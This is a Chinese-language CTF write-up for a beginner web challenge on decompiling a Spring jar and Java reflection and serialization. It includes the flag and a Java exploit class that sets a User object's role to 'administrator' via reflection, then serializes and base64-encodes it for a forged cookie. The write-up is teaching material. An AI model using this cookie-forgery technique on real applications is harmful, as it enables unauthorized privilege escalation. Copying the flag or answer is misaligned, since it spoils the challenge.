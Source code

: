 - **题目名称：** Learn_decompilation_and_reflection
- **题目类型：** WEB
- **题目难度：** 简单
- **出题人：** Victor
- **考点：**

1. 对jar包的反编译和简单的spring代码审计
2. 反射、简单的序列化和反序列化、简单的java代码编写

- **描述：** 简单学习一下java的基础知识吧
- **flag：** XSCTF{Th3n_y0u_can_le4rn_m0re_ab0ut_j4v4_s3curity}
- **Writeup：** 

建议先学习一下java中的反射、序列化、反序列化在现实中的作用以及可能导致的安全问题和利用方式
拿到jar包以后反编译，pom.xml和其他配置文件都没什么有用的东西。
直接审计路由。只需要在CheckPrivilege路由通过json提交challenge参数，然后在cookie反序列化user类时通过if判断即可得到flag。
将user类的代码复制到本地，或者直接把整个项目当成外部lib即可导入user类。
通过反射的方法设置role属性为管理员（实际上该情况下不通过反射直接设置也可以，但实战中大都需要反射才能做类似的操作），序列化后base64编码即可通过if判断，exp如下：

```
package com.xsctf.ldar.Bean;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;

public class exp {
    public static void main(String[] args) throws Exception{
        User user =new User();
        Class cls = user.getClass();
        Field role = cls.getDeclaredField("role");
        role.setAccessible(true);
        role.set(user,"administrator");
        System.out.println(serialize(user));
    }
    public static String serialize(Object obj) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(byteArrayOutputStream);
        oos.writeObject(obj);
        byte[] serializedBytes = byteArrayOutputStream.toByteArray();
        return Base64.getEncoder().encodeToString(serializedBytes);
    }
}

```